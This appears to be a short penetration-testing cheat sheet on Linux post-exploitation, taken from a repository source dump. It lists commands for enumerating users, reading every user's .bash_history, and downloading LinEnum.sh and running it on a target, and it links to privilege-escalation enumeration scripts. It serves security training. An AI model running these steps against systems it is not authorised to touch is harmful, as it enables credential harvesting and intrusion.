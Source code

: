 

---
File: /CheatSheets/linux/pos_xpl/readme.md
---

# Post-Exploitation on Linux

## Data Haversting and Enumaration

### Common users

`awk -F: '{ if($3 >= 1000) print $1}' passwd >> users` 

### Reading bash_history files

Mapping users directories

`ls /home/ > users_home`

Reading files

`for user in $(cat home_users); do echo $user; cat /home/$user/.bash_history ; echo -e "=====\n" ;done`

### Using great scripts

LinEnu.sh

wget [LinEnum.sh](https://raw.githubusercontent.com/kitsun3sec/Pentest-Cheat-Sheets/master/CheatSheets/pos_xpl/LinEnum.sh)

#### Upload it to the target and run through terminal

```bash
> chmod +x LinEnum.sh
> ./LinEnum.sh -t
```

#### Done, now pay attention to the output and see if there is anything *interesting*


## OTHERS SCRIPTS

* [LinuxPrivChecker](https://www.securitysift.com/download/linuxprivchecker.py)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [High Coffee](https://highon.coffee/downloads/linux-local-enum.sh)


---
File: /CheatSheets/linux/priv_esc/readme.md
---
